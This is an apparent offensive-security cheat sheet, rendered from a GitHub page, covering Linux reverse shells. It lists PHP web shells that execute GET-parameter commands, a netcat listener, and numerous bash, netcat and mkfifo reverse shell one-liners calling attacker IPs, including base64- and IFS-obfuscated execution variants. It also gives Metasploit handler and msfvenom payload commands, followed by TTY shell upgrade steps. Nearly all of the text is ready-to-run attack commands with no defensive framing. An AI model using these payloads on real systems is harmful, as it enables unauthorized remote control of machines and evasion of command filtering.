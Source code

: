 # Linux  PHP > Rev Shell > Shell Upgrade Commands

##🐈‍⬛ PHP
```
<?php system($_GET['cmd']);?>

<?php
if (isset($_GET['command'])) {
    exec($_GET['command']);
}
?>
```
## 🎃 Bash TCP Shell

## ⭐ Attacker
```
nc -lvnp 4444
```
##🌙 Victim
```

/bin/bash -i 5<> /dev/tcp/10.10.14.13/4444 0<&5 1>&5 2>&5
bash -i >& /dev/tcp/10.10.14.13/4444 0>&1
0<&196;exec 196<>/dev/tcp/10.10.14.13/4444; sh <&196 >&196 2>&196
/bin/bash -l > /dev/tcp/10.10.14.13/4444 0<&1 2>&1
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 172.21.0.0 1234 >/tmp/f
nc -e /bin/sh 10.11.1.111 4443
bash -i >& /dev/tcp/IP ADDRESS/8080 0>&1
{echo,COMMAND_BASE64}|{base64,-d}|bash 
echo${IFS}COMMAND_BASE64|base64${IFS}-d|bash
bash -c {echo,COMMAND_BASE64}|{base64,-d}|{bash,-i} 
echo COMMAND_BASE64 | base64 -d | bash 
```
## 🎃 Meterpreter Shells

## ⭐ Attacker
```
msfconsole
search multi handler
use exploit/multi/handler
set payload linux/x86/meterpreter/reverse_tcp
set LHOST 10.0.0.1
set LPORT 4242
exploit
```
##🌙 Victim

###🌙 Linux Staged reverse TCP

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=4242 -f elf >reverse.elf

```
###🌙 Linux Stageless reverse TCP

```
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.0.0.1 LPORT=4242 -f elf >reverse.elf

```

## 🎃 Python Shell Upgrade
```
python -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

## 🎃 TTY Shell Upgrade

```
script /dev/null -c bash
export TERM=xterm
# Control + z
stty raw -echo && fg
# Press Enter (Return) twice
```

## 🎃 Shell To Bash Upgrade
```
SHELL=/bin/bash script -q /dev/null
```

